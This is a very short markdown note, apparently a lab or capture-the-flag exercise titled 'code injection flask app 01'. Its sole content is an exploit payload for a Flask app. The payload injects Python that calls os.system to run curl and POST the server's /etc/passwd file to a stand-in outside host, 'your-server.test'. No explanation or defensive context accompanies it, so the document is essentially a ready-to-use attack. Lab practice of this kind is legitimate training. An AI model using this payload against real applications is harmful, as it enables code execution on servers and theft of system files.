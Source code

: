 # code injection flask app 01

### try to read the /etc/passwd file





## exploit

```
%s'%__import__("os").system("curl -X POST -d @/etc/passwd your-server.test")%'
```